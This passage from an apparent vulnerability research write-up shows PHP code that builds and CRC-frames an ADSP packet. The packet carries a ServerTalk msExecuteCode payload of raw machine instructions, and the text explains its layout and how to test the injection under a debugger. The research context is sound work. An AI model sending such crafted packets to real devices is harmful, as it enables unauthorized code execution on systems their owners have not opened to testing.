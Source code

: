 ```php

    function frame($data) {
        return str_replace("\x10", "\x10\x10", $data.pack("n", crc_update(0xffff, $data)^0xffff))."\x10\x03";
    }
    
    //STP instruction for execute code
    $payload = "\x05\x39\x00\x00\x00\x28\x00\x00\x02\x17\x04\x00\x40\x09\x00\x00\x00\x32\x9c\x21\x21\xa9\x1f\x8d\x22\x21\x9c\x22\x21\xa9\x0f\x8d\x00\x21\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA\xEA";

    print bin2hex(frame(encapsulate($payload)))
?>
```

The `$payload` variable contains the ADSP packet header, the ServerTalk opcode for `msExecuteCode` (`0x09`), a `long` representing the length of the instructions followed by the actual instructions. The tool will calculate the CRC in addition to adding the frame to the packet.


Below is our completed packet:

<img src="/assets/adsp_packet_for_do_execute_code_demo.png" width="700" height="500">

At this point, we should be able to set a breakpoint within `_ReceiveServerMessageDispatch` (`0xd5cbda`) and see if injecting this packet triggers the `kDispatcherVector` to resolve a processing routine for `msExecuteCode` messages.
